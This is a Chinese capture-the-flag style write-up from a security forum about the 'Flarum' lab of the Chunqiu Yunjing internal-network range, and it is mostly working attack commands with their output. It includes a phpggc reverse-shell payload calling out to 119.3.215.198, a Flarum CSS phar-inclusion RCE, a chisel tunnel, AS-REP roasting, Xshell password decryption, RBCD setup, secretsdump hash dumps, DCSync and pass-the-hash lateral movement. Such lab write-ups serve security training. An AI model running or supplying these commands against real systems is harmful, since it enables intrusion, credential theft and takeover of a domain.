# 内网打靶——春秋云镜篇 (7)--Flarum - 先知社区

内网打靶——春秋云镜篇 (7)--Flarum

- - -

# 外网打点

## 信息搜集

Fscan 扫描

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213639-c347cf5a-c03d-1.png)

## 漏洞探测

题目描述检测口令安全性，那应该是存在弱口令，所以我们先找下管理员用户，然后进行爆破，我们这里可以发现首页的这个邮箱

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213714-d7d8ebfc-c03d-1.png)

明显就是管理员账号，然后导入密码本到 bp 中进行爆破

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213745-eac0d662-c03d-1.png)

得到密码`1chris`

而后进入后台

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213734-e3e9858c-c03d-1.png)

发现是`Flarum`主题，搜索相关漏洞发现[https://www.leavesongs.com/PENETRATION/flarum-rce-tour.html](https://www.leavesongs.com/PENETRATION/flarum-rce-tour.html)

而后按部就班即可

## 漏洞利用

借助`phpggc`工具生成反弹 Shell 语句

```plain
php -d phar.readonly=0 phpggc -p tar -b Monolog/RCE6 system "bash -c 'bash -i >& /dev/tcp/119.3.215.198/7776 0>&1'"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213906-1b15d646-c03e-1.png)

点击`外观->自定义样式->编辑自定义CSS`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213910-1ce735aa-c03e-1.png)

编辑内容如下

```plain
@import (inline) 'data:text/css;base64,xxx';
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213916-20e0d792-c03e-1.png)

而后访问`URL/assets/forum.css`可以发现我们的恶意 Payload 已放入其中

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213923-2514dd90-c03e-1.png)

接下来进行包含此 CSS 文件，具体内容如下

```plain
.test {
  content: data-uri("phar://./assets/forum.css");
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213929-28771070-c03e-1.png)

在监听处可收到 Shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213935-2bff2840-c03e-1.png)

## 提权

权限为 www-data，无法访问 root 目录，因此需要提权。

接下来找了找具有 SUID 权限的命令，没有什么发现，因此上传辅助提权工具`linpeas_linux_amd64`，而后发现多个可能存在的提权漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213944-31b289b2-c03e-1.png)

下载相关 Exp 进行尝试利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213949-348d1116-c03e-1.png)

emmm，失败了，后来参考 linux 提权文章[https://www.cnblogs.com/f-carey/p/16026088.html](https://www.cnblogs.com/f-carey/p/16026088.html)

```plain
getcap -r  / 2>/dev/null
```

发现 openssl 可以利用，借此读取 Flag

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131213956-38c7a5e8-c03e-1.png)

# 内网横向

## 信息搜集

Fscan 扫描

```plain
meterpreter > shell -c 'chmod +x *'
meterpreter > shell -c './fscan -h 172.22.60.52/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.60.8     is alive
(icmp) Target 172.22.60.15    is alive
(icmp) Target 172.22.60.42    is alive
(icmp) Target 172.22.60.52    is alive
[*] Icmp alive hosts len is: 4
172.22.60.42:445 open
172.22.60.15:445 open
172.22.60.8:445 open
172.22.60.42:139 open
172.22.60.15:139 open
172.22.60.8:139 open
172.22.60.15:135 open
172.22.60.42:135 open
172.22.60.8:135 open
172.22.60.52:80 open
172.22.60.52:22 open
172.22.60.8:88 open
[*] alive ports len is: 12
start vulscan
[*] NetInfo 
[*]172.22.60.42
   [->]Fileserver
   [->]172.22.60.42
   [->]169.254.241.110
[*] NetBios 172.22.60.42    XIAORANG\FILESERVER           
[*] NetInfo 
[*]172.22.60.15
   [->]PC1
   [->]172.22.60.15
   [->]169.254.39.51
[*] NetBios 172.22.60.15    XIAORANG\PC1                  
[*] NetBios 172.22.60.8     [+] DC:XIAORANG\DC             
[*] NetInfo 
[*]172.22.60.8
   [->]DC
   [->]172.22.60.8
   [->]169.254.222.191
[*] WebTitle http://172.22.60.52       code:200 len:5867   title:霄壤社区
```

同时发现一个 Config 文件，里面有数据库账密

## 代理搭建

```plain
VPS:./chisel server -p 7000 --reverse
靶机:./chisel client VPS:7000 R:0.0.0.0:7001:socks
```

## 数据库连接

在我们登录网页后台时就出现用户名，且以`xiaorang.lab`结尾，说明可能有一部分是域用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214008-3f834f40-c03e-1.png)

但是不太容易导出，我们正好看到了数据库配置文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214013-42c97648-c03e-1.png)

因此连接 navicat 导出整列

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214018-4598ce8c-c03e-1.png)

找到 User 表

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214024-4972484e-c03e-1.png)

导出数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214031-4d2b346e-c03e-1.png)

## AS—REP Roasting

使用`GetNPUsers`查找不需要 Kerberos 预身份验证的用户

```plain
proxychains python3 GetNPUsers.py -dc-ip 172.22.60.8 -usersfile flarum_users.txt xiaorang.lab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214038-51b9a3b2-c03e-1.png)

接下来用 hashcat 离线爆破两组用户，可得到一组用户密码

```plain
wangyun@XIAORANG.LAB::Adm12geC
```

导入 BloodHound

```plain
proxychains bloodhound-python -u wangyun -p Adm12geC -d xiaorang.lab -c all -ns 172.22.60.8 --zip --dns-tcp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214045-559c6442-c03e-1.png)

发现`ZHANGXIN`用户属于`ACCOUNT OPERATORS`组，对非域控机器有`GenericAll`权限，所以可以通过`ZHANGXIN`用户配置 RBCD，然后通过 DcSync 获取域控 Hash。

## RDP 登录

接下来探测几个内网主机 3389 存活情况，将`wangyun`用户登录进行进一步信息搜集，通过`Fscan`扫描发现`172.22.60.15`主机 3389 端口开放

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214050-58a3700e-c03e-1.png)

RDP 连接，发现 Xshell7 软件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214055-5bdd526c-c03e-1.png)

发现`zhangxin`用户，但密码不可读

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214101-5f5245d8-c03e-1.png)

## Xshell 密码读取

参考[https://blog.csdn.net/qq\_41874930/article/details/113666259](https://blog.csdn.net/qq_41874930/article/details/113666259)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214107-62f14c84-c03e-1.png)

在`SSH.xsh`中可以发现 Password 字段

而后用`wmic useraccount get name,sid`获取`SID`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214112-659b7e78-c03e-1.png)

而后运行脚本即可获取密码。

不过发现一个更方便的工具，[https://github.com/JDArmy/SharpXDecrypt](https://github.com/JDArmy/SharpXDecrypt)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214118-69908bfe-c03e-1.png)

```plain
zhangxin admin4qwY38cc
```

## 利用 Acount Operators 组用户拿下主机

参考[https://xz.aliyun.com/t/11555?time\_\_1311=mqmx0DBD2Gqiw40vofDy7D9m6GOCDcGiG7oD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F50470#toc-18](https://xz.aliyun.com/t/11555?time__1311=mqmx0DBD2Gqiw40vofDy7D9m6GOCDcGiG7oD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F50470#toc-18)

使用`zhangxin`登录主机后打开`Powershell`，执行如下命令：

1、导入 Ps 脚本，创建机器用户`test3`

```plain
Set-ExecutionPolicy Bypass -Scope Process
import-module .\Powermad.ps1
New-MachineAccount -MachineAccount test3 -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)
```

2、查询机器用户 SID 值

```plain
Get-NetComputer test3 -Properties objectsid
```

3、修改`FileServer`的修改`msds-allowedtoactonbehalfofotheridentity`的值

```plain
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3535393121-624993632-895678587-1116)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer FILESERVER| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214131-70fc0dc8-c03e-1.png)

接下来就到了申请 ST 的步骤了，不过在申请之前，我们需要先配置下映射关系

```plain
vim /etc/hosts
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214137-74b847ce-c03e-1.png)

而后申请 ST

```plain
proxychains python3 getST.py -dc-ip 172.22.60.8 xiaorang.lab/evilpc2$:password -spn cifs/FILESERVER.xiaorang.lab -impersonate administrator
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214145-79b3e7ec-c03e-1.png)

导入，而后无密码登录即可

```plain
export KRB5CCNAME=administrator@cifs_FILESERVER.xiaorang.lab@XIAORANG.LAB.ccache
proxychains python3 smbexec.py -no-pass -k FILESERVER.xiaorang.lab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214152-7daef09e-c03e-1.png)

整体过程也可以借助`Impacket`套件实现

```plain
proxychains python3 addcomputer.py xiaorang.lab/zhangxin:'admin4qwY38cc' -dc-ip 172.22.60.8 -dc-host xiaorang.lab -computer-name 'TEST2$' -computer-pass 'P@ssw0rd'

proxychains python3 rbcd.py xiaorang.lab/zhangxin:'admin4qwY38cc' -dc-ip 172.22.60.8 -action write -delegate-to 'Fileserver$' -delegate-from 'TEST2$'

proxychains python3 getST.py xiaorang.lab/'TEST2$':'P@ssw0rd' -spn cifs/Fileserver.xiaorang.lab -impersonate Administrator -dc-ip 172.22.60.8
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214215-8b2e891e-c03e-1.png)

## 信息搜集

获取主机权限后，抓一下`FILESERVER`的哈希

```plain
proxychains secretsdump.py -k -no-pass FILESERVER.xiaorang.lab -dc-ip 172.22.60.8
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214302-a797784a-c03e-1.png)

具体如下

```plain
proxychains secretsdump.py -k -no-pass FILESERVER.xiaorang.lab -dc-ip 172.22.60.8
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket for Exegol - v0.10.1.dev1 - Copyright 2022 Fortra - forked by ThePorgs

[proxychains] Strict chain  ...  119.3.215.198:7001  ...  172.22.60.42:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xef418f88c0327e5815e32083619efdf5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bd8e2e150f44ea79fff5034cad4539fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b40dda6fd91a2212d118d83e94b61b11:::
[*] Dumping cached domain logon information (domain/username:hash)
XIAORANG.LAB/Administrator:$DCC2$10240#Administrator#f9224930044d24598d509aeb1a015766: (2023-08-02 07:52:21)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
XIAORANG\Fileserver$:plain_password_hex:3000310078005b003b0049004e003500450067003e00300039003f0074006c00630024003500450023002800220076003c004b0057005e0063006b005100580024007300620053002e0038002c0060003e00420021007200230030003700470051007200640054004e0078006000510070003300310074006d006b004c002e002f0059003b003f0059002a005d002900640040005b0071007a0070005d004000730066006f003b0042002300210022007400670045006d0023002a002800330073002c00320063004400720032002f003d0078006a002700550066006e002f003a002a0077006f0078002e0066003300
XIAORANG\Fileserver$:aad3b435b51404eeaad3b435b51404ee:951d8a9265dfb652f42e5c8c497d70dc:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x15367c548c55ac098c599b20b71d1c86a2c1f610
dpapi_userkey:0x28a7796c724094930fc4a3c5a099d0b89dccd6d1
[*] NL$KM 
 0000   8B 14 51 59 D7 67 45 80  9F 4A 54 4C 0D E1 D3 29   ..QY.gE..JTL...)
 0010   3E B6 CC 22 FF B7 C5 74  7F E4 B0 AD E7 FA 90 0D   >.."...t........
 0020   1B 77 20 D5 A6 67 31 E9  9E 38 DD 95 B0 60 32 C4   .w ..g1..8...`2.
 0030   BE 8E 72 4D 0D 90 01 7F  01 30 AC D7 F8 4C 2B 4A   ..rM.....0...L+J
NL$KM:8b145159d76745809f4a544c0de1d3293eb6cc22ffb7c5747fe4b0ade7fa900d1b7720d5a66731e99e38dd95b06032c4be8e724d0d90017f0130acd7f84c2b4a
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

获取`FILESERVER$`用户哈希为`951d8a9265dfb652f42e5c8c497d70dc`，接下来凭借机器用户哈希去获取域控哈希

## DcSync 攻击

借助`secretsdump.py`工具导出域控哈希

```plain
proxychains secretsdump.py xiaorang.lab/'Fileserver$':@172.22.60.8 -hashes ':951d8a9265dfb652f42e5c8c497d70dc' -just-dc-user Administrator
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214334-baab7968-c03e-1.png)

获取域控哈希`c3cfdc08527ec4ab6aa3e630e79d349b`

## 横向传递

借助`wmiexec.py`工具横向

```plain
proxychains python3 wmiexec.py -hashes :c3cfdc08527ec4ab6aa3e630e79d349b Administrator@172.22.60.15 -codec gbk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214341-bef2071c-c03e-1.png)

还有一个主机`PC1`也是同理，改下 IP 即可

```plain
proxychains python3 wmiexec.py -hashes :c3cfdc08527ec4ab6aa3e630e79d349b Administrator@172.22.60.8 -codec gbk
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240131214349-c360fe16-c03e-1.png)
